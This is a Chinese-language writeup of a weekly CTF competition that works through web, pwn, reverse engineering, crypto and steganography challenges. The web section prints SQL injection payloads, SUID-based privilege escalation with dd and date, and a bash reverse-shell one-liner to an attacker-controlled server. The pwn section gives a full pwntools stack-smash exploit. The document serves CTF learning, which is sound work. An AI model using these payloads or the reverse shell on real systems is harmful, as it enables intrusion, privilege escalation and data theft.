

# BestiCTF S1 Week15 周赛 Writeup

[TOC]


## 参赛情况


## Web

### [曲奇饼干](https://www.nssctf.cn/team/problem/6293)

#### 题目描述

***The Cake is a Lie***

お帰りなさい、お姉さま。

#### 解题思路

打开网站，是一个登录界面，不过下面有一个游客登录，点击试试，跳转到 dashboard ：


F12 查看 cookies，发现有一个 whoami 值为 guest。


将其改为 admin ，刷新，出现命令执行窗口：


输入命令 `system('cat /f*');`，得到 flag：


#### 总结

- Web基础
	- Cookie


### [注入灵魂](https://www.nssctf.cn/team/problem/6306)

#### 题目描述

***打败你自己的不一定是敌人，还可能是你自己写的逆天代码***

欢迎来到 Web 曾经最辉煌，现在最冷淡的分支之一。

#### 解题思路

打开网站，可以看到源码是一个 sql 查询：


根据左边的源码，可以判断其为数字型注入。

##### 手注

首先获取表名：`1 union SELECT 1,TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();`，可以看到有个表为 flag。


直接 `1 union SELECT * from flag` 得到 flag。



##### sqlmap

可以看到注入的参数为param id，于是命令如下：

```shell
sqlmap -u "http://node6.anna.nssctf.cn:20015/?id=1" -f --tables --sql-shell
```

得到shell：


随后输入命令 `SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();`，发现有个表名为 flag，随后输入命令 `select * from flag` 得到 flag。


#### 总结

- sql注入


### [成为她的唯一](https://www.nssctf.cn/team/problem/6305)

#### 题目描述

***我爱的人，我要能够占领他整个生命，他在碰见我之前，没有过去，留着空白等待我。***

要如何才能成为她的唯一？

`hint1` : flag 在`/root`中。
`hint2` : 。

#### 解题思路

打开网页，发现是个命令执行，直接就可以输入命令，根据提示，输入命令 `ls /root`，可以看到里面就有 flag 文件：


执行`cat /root/flag`，发现没有结果，怀疑是权限问题，输入命令 `ls -l /root`，发现flag需要 root 权限才能读：


猜测需要提权，[linux提权方法（不断更新） - BlogZhang - 博客园](https://www.cnblogs.com/bilei/p/16140186.html)，使用 suid 提权，输入命令 `find / -perm -u=s -type f 2>/dev/null`，结果如下：

```
/bin/date
/bin/dd
/bin/umount
/bin/mount
/bin/ls
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
# 类似于这些程序自带root权限
```

其中 date 和 dd 可以利用。

##### dd

dd 是 device driver 单词的缩写，主要用于读取内容并进行完整复制。使用方法：

```shell
dd if=源文件 of=目标文件
```

我们可以将flag的内容复制到不需要 root 权限的文件中，命令如下：

```shell
dd if=/root/flag of=/flag

cat /flag
```

即可得到 flag：


##### date

date -f 可以从文件中读取日期，如果不是日期则会报错并输出文件内容。

由于需要从报错中查看文件内容，我们需要反弹shell：

在云服务器上运行 `nc -lvp 2333`，在网页执行命令 `bash -c "bash -i  >&/dev/tcp/云服务器ip/2333 0>&1"`，成功得到shell后，执行 `date -f /root/flag` 得到 flag。


#### 总结

- RCE命令执行
	- 提权
		- suid提权


## Pwn

### [防不胜防](https://www.nssctf.cn/team/problem/6281)

#### 题目描述

***本意是好的，只是 Glibc 执行坏了***

爱，并不是一定是拥有，哪怕只是能多了解你一点，也好。

#### 解题思路

checksec 一下，发现是全保护：


IDA 打开，阅读代码：


可以发现 v9 所指向的函数会读取 /flag，将内容存到 0x202040 中。很明显由于程序有 PIE 保护，我们不知道 0x202040 运行时的绝对地址，我们需要获取基地址。我们可以看到，第19行的`sub_E40(v8, 16LL);`是读取16个字节，而 v8 后面是 v9，我们可以输入十六个非0字符，从而使得下一行输出时会继续输出v9，即函数sub_CF0 的地址，减去 0xCF0 即可得到基地址，代码如下：

```python
target_address = 0x202040

# Get base address and rebase
known_address_offset = 0xCF0

payload = b'a' * 0x10
p.send(payload)
p.recvuntil(payload)

known_address = u64(p.recvline().strip(b' into the server!\n').ljust(8, b'\x00'))
base_address = known_address - known_address_offset

print("base_address: " + hex(base_address))
target_address = target_address + base_address
```

如果我们输入的 v10 为 backdoor，就会调用v9所指向的函数，即读取/flag，所以继续编写代码如下：

```python
p.sendline(b'backdoor')
```

不过，虽然我们知道了 flag 的地址，由于程序有 canary 保护，我们无法输出 flag。 不过想到 canary，突然发觉一件有趣的事，canary 在发现栈溢出报错时，会输出程序的程序名，即：

```c
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```

我们知道 argv 作为系统传递给程序主函数的参数，同样存放在栈上，如果我们能利用 gets 覆盖修改 __libc_argv[0] 为 flag 的地址，是不是就能输出 flag？

说干就干，首先使用 `gdb.attach(p)`，打开pwndbg（建议调试时在脚本目录建一个flag）：


可以找到我们输入的地址和argv[1]的地址（红线），使用 `distance 0x7ffefd5b0900 0x7ffefd5b0a68` ，得到距离为0x168，即需要输入0x168个填充字符才能覆盖，编写代码如下：

```python
buf_to_argv0 = 0x168

# Recover argv[0]
payload = b'a' * buf_to_argv0 + p64(target_address)

p.sendline(payload)
p.sendline(b'exitexit')

p.interactive()
```

成功得到 flag：


> 我们称这种攻击为 Stack smash，这种方法在 glibc-2.31 之后不可用

#### EXP

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
context.terminal = ['cmd.exe', '/c', 'wt.exe', '-w', '0', '--title', 'gdb', 'bash', '-c']

p = remote("node6.anna.nssctf.cn", 22457)
# p = process('/mnt/c/Users/崔志鹏/Desktop/临时/Attachments/attachment')

target_address = 0x202040
buf_to_argv0 = 0x168

# 64位
context(arch="amd64",os="linux")
stack_len = 0x88 + 0x8

# Get base address and rebase
known_address_offset = 0xCF0

payload = b'a' * 0x10
p.send(payload)
p.recvuntil(payload)

# p.interactive()  # can can need

known_address = u64(p.recvline().strip(b' into the server!\n').ljust(8, b'\x00'))
base_address = known_address - known_address_offset

print("base_address: " + hex(base_address))

p.sendline(b'backdoor')

target_address = target_address + base_address

# Recover argv[0]
payload = b'a' * buf_to_argv0 + p64(target_address)

p.sendline(payload)
# gdb.attach(p)
p.sendline(b'exitexit')

p.interactive()
```

#### 总结

- 栈溢出
	- 花式ROP
		- stack smash


## Reverse

### [心墙](https://www.nssctf.cn/team/problem/6302)

#### 题目描述

***浑然不知觉，心似坚冰冷***

你的心有一道墙，但我发现一扇窗。
就算你有一道墙，我的爱会攀上窗台盛放。

#### 解题思路

使用 ExeinfoPE 查壳，发现有 upx 壳：


使用 `upx -d wall.exe` 脱壳，再用 IDA 打开，f5 查看，发现是个简单的比较。


打开 flag：


直接反向即可得到 flag：`flag{de-H4a2t_Wal1}`

#### 总结

- 壳
	- UPX


### [围城](https://www.nssctf.cn/team/problem/6303)

#### 题目描述

***笃信己身义，一如陌路人***

你可以走自己的路、做自己的夢，過自己喜歡過的人生，沒必要照搬別人的劇本來演，因為你就是自己的超級巨星。

#### 解题思路

查壳，无壳。用IDA打开，发现是个走迷宫。


根据代码可知，迷宫长宽都为20，s是起点，y是终点，#是墙，要求路径最短，整理迷宫如下：

```
s****######*********
###*#######*#######*
###*********#####***
#####*###########*##
#####*###########*##
#####***********#*##
###***#####*###*#*##
###*#######*###*#*##
###*#######*###*#*##
###*#######*###***##
##*****####*###*#*##
#####*#####*###*#*##
#####*#####*###*#*##
#####*******###*#*##
###########*###*#*##
###########*###*#*##
###########*###*#*##
###########*###*#*##
###*************#*##
#################**y
```

利用vscode 不难得到路径：


```
dddssddsssddddddddddssssddssssssssssdd
```

输入得到 flag 为 `flag{dddssddsssddddddddddssssddssssssssssdd}`。


#### 总结

- 静态分析
	- 迷宫问题
		- 二维字符迷宫


## Crypto

### [认识啊](https://www.nssctf.cn/team/problem/6304)

#### 题目描述

***琴音奏我情，弦声语君心，方知彼时意***

这好像是一个管理员登录api，它好像有点缺陷欸，让我们……吧（

#### 解题思路

nc 连接，如下：


RSA，已知 n，e，c，求m。可以发现 n 很小，可以暴力分解。使用 yafu 暴力分解 `factor(238473590195572202893388858811735944143)`：


得到 p，q。编写脚本解密得到明文密码：`#k%s@4)23-`，输入回车得到flag：


#### EXP

```python
from Crypto.Util.number import *

n = 238473590195572202893388858811735944143
e = 65537
c = 201420737751194789798949319544299184742

p = 18381758709842584643
q = 12973382686602266501

phi = (p-1)*(q-1)
d = inverse(e,phi)
m = pow(c,d,n)
print(long_to_bytes(m))
```

#### 总结

- RSA
	- 模数相关攻击
		- 暴力分解 N


## Misc

### [请勿插队](https://www.nssctf.cn/team/problem/6320)

#### 题目描述

***贪小便 宜吃大亏***

现在，你是一名志愿者，你的第一个工作就是维持秩序，把那些不守规矩插队的人找出来。

#### 解题思路

##### 预期解法

首先 pngcheck 一下，发现 IDAT 块有问题。


根据 [从0开始学杂项 第三期：隐写分析(2) PNG 图片隐写_png隐写-CSDN博客](https://blog.csdn.net/CHTXRT/article/details/128714931#t6)，IDAT 块只有当上一个块充满（正常length最大65524）时，才会继续一个新的块。可以判断最后一块是有问题的。用 Winhex 打开，找到最后一个 IDAT 块（或者 010Editer ，更直观）：


将所选zlib压缩数据解压（代码在EXP部分），得到flag：


##### 非预期解法

> 作者：汤泽鹏 20242321

不知道是不是正规的做法[^CHTXRT]，

[^CHTXRT]: 不是

我binwalk了一下这个图片就出来了


#### EXP

```python
import zlib
import binascii
IDAT = b''.fromhex("789C4BCB494CAF763188CF3328894F324CCC35892F358E4FF32F8ACFCB2F89CF480C33CC4B8F4F33284A2D4F34CA4B4D89AF3428AD0500DFBE12B7ED90411D")	#双引号中填IDAT数据
print(IDAT)
result = binascii.hexlify(zlib.decompress(IDAT))
print(b''.fromhex(result.decode()))
```

#### 总结

- 图像隐写分析
	- PNG
		- IDAT隐写


### [藏在心中的爱恋](https://www.nssctf.cn/team/problem/6301)

#### 题目描述

***心怀昔日事,身负几多愁***

你能看穿她的心吗？

#### 解题思路

依旧首先 pngcheck 一下，发现 IHDR 块有问题。


使用脚本爆破宽高，得到宽高实际为：


用 Winhex 修改这一部分：


保存再打开图片，即可得到 flag。


#### EXP

```python
import zlib
import struct
import sys

filename = sys.argv[1]
with open(filename, 'rb') as f:
    all_b = f.read()
    crc32key = int(all_b[29:33].hex(),16)
    data = bytearray(all_b[12:29])
    n = 4095            #理论上0xffffffff,但考虑到屏幕实际/cpu，0x0fff就差不多了
    for w in range(n):          #高和宽一起爆破
        width = bytearray(struct.pack('>i', w))     #q为8字节，i为4字节，h为2字节
        for h in range(n):
            height = bytearray(struct.pack('>i', h))
            for x in range(4):
                data[x+4] = width[x]
                data[x+8] = height[x]
            crc32result = zlib.crc32(data)
            if crc32result == crc32key:
                print("宽为：",end="")
                print(width)
                print("高为：",end="")
                print(height)
                exit(0)
```

#### 总结

- 图像隐写分析
	- PNG
		- IHDR隐写